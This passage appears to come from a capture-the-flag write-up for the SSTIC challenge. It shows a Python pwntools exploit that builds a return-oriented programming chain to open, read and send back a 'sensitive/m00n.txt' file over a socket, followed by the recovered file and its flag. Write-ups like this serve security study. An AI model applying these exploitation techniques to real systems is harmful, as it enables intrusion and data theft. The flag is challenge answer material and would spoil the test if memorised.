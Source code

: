 ```python
log.info("libc base: %#x", libcbase)

payload_data = b""
def add_data(s):
    global payload_data
    payload_data = s + payload_data
    return inputaddr + 0x208 - len(payload_data)

pop_rdi = libcbase + 0x0007a307
pop_rsi = libcbase + 0x0007a0ff
pop_rdx_rcx_rbx = libcbase + 0x001025ad
cave = exebase + 0x9100
# fds: 0=stdin, 1=stdout, 2=stderr, 3=serial_port, 4=server_sock, 5=client_sock, 6=dbg
rop = [
    # open("sensitive/m00n.txt", 0)
    pop_rdi, add_data(b"sensitive/m00n.txt\0"),
    pop_rsi, 0,
    exebase + 0x22d0,
    # read(7, cave, 0x800)
    pop_rdi, 7,
    pop_rsi, cave,
    pop_rdx_rcx_rbx, 0x800, 0, 0,
    exebase + 0x21c0,
    # write(5, cave, 0x800)
    pop_rdi, 5,
    pop_rsi, cave,
    pop_rdx_rcx_rbx, 0x800, 0, 0,
    exebase + 0x20c0,
    0x4141414141,
]
payload = flat(rop) + b"perms=63&user=x"
sig = sign(payload)
payload = payload.replace(b"\0", b"\n") + b"&sig=%d&" % sig
payload = payload.ljust(0x208 - len(payload_data), b"X") + payload_data
assert len(payload) == 0x208
payload = payload + p64(0x41) + struct.pack("<QQQQQQ", 1, 0xff, certaddr, 0, signptr(pop_rdi), 0)
send_cmd("CERT", base64.b64encode(payload), reply=False)
secret = s.recvn(0x800)
log.info("secret: %s", secret.rstrip(b"\0").decode())

s.interactive()
```

Running this yields the [`m00n.txt`](files/stage3/m00n.txt) secret file (translated):

```
The other day I saw the little film we made at the time with Neil Armstrong.
It's crazy what we managed to do at the time!

When I see today's special effects, I tell myself that we were really
avant-garde...

PS: We have made good progress on securing our information exchange server. The
FTP server is operational as well as our hardware security module.

TODO:
     - Implement decompression
     - Use a less sensitive file than home_backup.tar for compression tests
     - Integrate the "goodfs" file system to the FTP server

SSTIC{f074370fa82189b5996228bb4a1df23d}
```
